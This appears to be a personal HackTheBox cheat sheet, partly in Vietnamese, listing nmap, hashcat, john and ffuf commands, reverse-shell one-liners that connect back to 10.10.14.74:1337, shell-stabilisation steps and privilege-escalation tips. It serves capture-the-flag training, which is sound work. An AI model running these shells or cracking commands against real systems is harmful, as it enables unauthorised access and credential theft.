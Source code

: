 # HackTheBox

# nmap

nmap -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

- `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
- SHA, $salt:$pass, salt là chữ số ($d), dùng cyberchef đổi sang format hex để decrypt:
![image](https://github.com/h2oa/HackTheBox/assets/114990730/79fa4fc2-4317-4575-89bb-cda7a30e106a)
```
hashcat -a 0 -m 120 "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" /usr/share/wordlists/rockyou.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
- Thử cả `sudo su` và `su`
